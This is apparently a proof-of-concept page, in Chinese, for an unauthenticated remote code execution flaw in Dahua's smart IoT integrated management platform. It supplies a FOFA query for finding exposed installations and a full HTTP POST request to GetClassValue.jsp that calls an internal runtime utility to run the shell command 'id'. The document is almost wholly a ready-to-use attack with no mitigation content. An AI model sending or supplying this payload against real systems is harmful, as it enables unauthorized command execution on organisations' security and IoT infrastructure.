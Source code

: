 # 大华智能物联综合管理平台GetClassValue.jsp远程代码执行漏洞

大华智能物联综合管理平台GetClassValue.jsp远程代码执行漏洞，攻击者可以不需要授权远程执行命令。

## fofa

```
app="dahua-智能物联综合管理平台"
```

## POC

```
POST /evo-apigw/admin/API/Developer/GetClassValue.jsp HTTP/1.1
Host: 
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{
    "data": {
        "clazzName": "com.dahua.admin.util.RuntimeUtil",
        "methodName": "syncexecReturnInputStream",
        "fieldName": ["id"]
    }
}
```

![image-20250102172533617](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501021725804.png)